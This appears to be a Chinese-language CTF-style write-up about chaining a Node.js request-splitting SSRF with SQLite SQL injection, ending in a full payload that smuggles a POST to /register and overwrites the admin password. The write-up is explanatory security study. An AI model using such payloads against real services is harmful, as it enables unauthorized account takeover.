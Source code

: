 ### 验证:

我直接现场折腾nodejs然后写了一段nodejs在原始代码上....😭(因为sqlite运行在docker内部,而docker运行状态中,使用attach进入后必须得中断当前运行的nodejs代码....直接在docker容器外进行sqlite3连接是不行的,不过....如果有大佬能告诉我别的方法万分感谢,这里我研究了好久)

![Untitled](https://cdn.jsdelivr.net/gh/1dayluo/PicGo4Blog/data/Untitled_2.png)

![Untitled](https://cdn.jsdelivr.net/gh/1dayluo/PicGo4Blog/data/Untitled_3.png)

验证步骤如下:

- 代码处401处注释下,首先验证sql注入
- 取消注释,在api接口处,结合/register下的请求,验证ssrf(利用漏洞,走私,携带第一步中的sql注入的请求)

在第二步验证的时候要想办法构造合适的内容跳过if的判断,其实就是无论是ipv4还是ipv6下,用户(即客户端)访问的ip均要保证为127.0.0.1

还有这一步Content-Length很重要,如果计算不对直接影响req.socket.remoteAddress为undefined(血泪教训,卡了我一天半TUT) 如果不会用计算Content-Length的话,可以先把它设置为大一点的值,服务器对应会显示”request aborted”,然后在这个临界基础上往下减就可以

![Untitled](https://cdn.jsdelivr.net/gh/1dayluo/PicGo4Blog/data/Untitled_4.png)

### 最后的payload

哭了,做了一周 终于啃出来了

```python
127.0.0.1/test\u0120HTTP/1.1\u010D\u010AHost:127.0.0.1:80\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1:80\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120120\u010D\u010A\u010D\u010Ausername=admin&password=1234')+on+conflict(username)+do+update+set+password='1234'+where+username='admin';--\u010D\u010A\u010D\u010AGET\u0120/123
```

## 参考

- [https://blog.le31ei.top/2021/05/23/nodejs请求走私与ssrf/](https://blog.le31ei.top/2021/05/23/nodejs%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81%E4%B8%8Essrf/)   (感谢老哥文章,不然真的不知道要用到nodejs漏洞)
- [https://github.com/nodejs/node/issues/13296#issuecomment-305162413](https://github.com/nodejs/node/issues/13296#issuecomment-305162413)
- [https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/)
- [https://sqlite.org/forum/info/a0693a9e8ad39120](https://sqlite.org/forum/info/a0693a9e8ad39120)